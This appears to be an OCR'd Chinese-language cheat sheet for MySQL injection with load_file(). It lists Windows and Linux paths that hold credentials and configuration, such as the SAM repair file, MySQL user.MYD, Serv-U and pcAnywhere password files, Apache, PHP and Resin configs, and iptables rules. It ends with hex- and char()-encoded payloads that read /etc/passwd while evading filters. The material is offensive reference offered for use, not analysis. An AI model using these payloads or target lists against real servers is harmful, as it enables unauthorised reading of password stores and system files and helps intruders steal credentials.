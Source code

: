 MySQL注入load_file常用路径

WINDOWS下:

c:/boot.ini //查看系统版本

c:/windows/php.ini //php配置信息

c:/windows/my.ini //MYSQL配置文件，记录管理员登陆过的MYSQL用户名和密码

c:/winnt/php.ini

c:/winnt/my.ini

c:\mysql\data\mysql\user.MYD //存储了mysql.user表中的数据库连接密码

c:\Program Files\RhinoSoft.com\Serv-U\ServUDaemon.ini //存储了虚拟主机网站路径和密码

c:\Program Files\Serv-U\ServUDaemon.ini

c:\windows\system32\inetsrv\MetaBase.xml 查看IIS的虚拟主机配置

c:\windows\repair\sam //存储了WINDOWS系统初次安装的密码

c:\Program Files\ Serv-U\ServUAdmin.exe //6.0版本以前的serv-u管理员密码存储于此

c:\Program Files\RhinoSoft.com\ServUDaemon.exe

C:\Documents and Settings\All Users\Application Data\Symantec\pcAnywhere\*.cif文件

//存储了pcAnywhere的登陆密码

c:\Program Files\Apache Group\Apache\conf\httpd.conf 或C:\apache\conf\httpd.conf //查看WINDOWS系统apache文件

c:/Resin-3.0.14/conf/resin.conf //查看jsp开发的网站 resin文件配置信息.

c:/Resin/conf/resin.conf /usr/local/resin/conf/resin.conf 查看linux系统配置的JSP虚拟主机

d:\APACHE\Apache2\conf\httpd.conf

C:\Program Files\mysql\my.ini

C:\mysql\data\mysql\user.MYD 存在MYSQL系统中的用户密码

LUNIX/UNIX 下:

/usr/local/app/apache2/conf/httpd.conf //apache2缺省配置文件

/usr/local/apache2/conf/httpd.conf

/usr/local/app/apache2/conf/extra/httpd-vhosts.conf //虚拟网站设置

/usr/local/app/php5/lib/php.ini //PHP相关设置

/etc/sysconfig/iptables //从中得到防火墙规则策略

/etc/httpd/conf/httpd.conf // apache配置文件

/etc/rsyncd.conf //同步程序配置文件

/etc/my.cnf //mysql的配置文件

/etc/redhat-release //系统版本

/etc/issue

/etc/issue.net

/usr/local/app/php5/lib/php.ini //PHP相关设置

/usr/local/app/apache2/conf/extra/httpd-vhosts.conf //虚拟网站设置

/etc/httpd/conf/httpd.conf或/usr/local/apche/conf/httpd.conf 查看linux APACHE虚拟主机配置文件

/usr/local/resin-3.0.22/conf/resin.conf 针对3.0.22的RESIN配置文件查看

/usr/local/resin-pro-3.0.22/conf/resin.conf 同上

/usr/local/app/apache2/conf/extra/httpd-vhosts.conf APASHE虚拟主机查看

/etc/httpd/conf/httpd.conf或/usr/local/apche/conf /httpd.conf 查看linux APACHE虚拟主机配置文件

/usr/local/resin-3.0.22/conf/resin.conf 针对3.0.22的RESIN配置文件查看

/usr/local/resin-pro-3.0.22/conf/resin.conf 同上

/usr/local/app/apache2/conf/extra/httpd-vhosts.conf APASHE虚拟主机查看

/etc/sysconfig/iptables 查看防火墙策略

load_file(char(47)) 可以列出FreeBSD,Sunos系统根目录

replace(load_file(0×2F6574632F706173737764),0×3c,0×20)

replace(load_file(char(47,101,116,99,47,112,97,115,115,119,100)),char(60),char(32))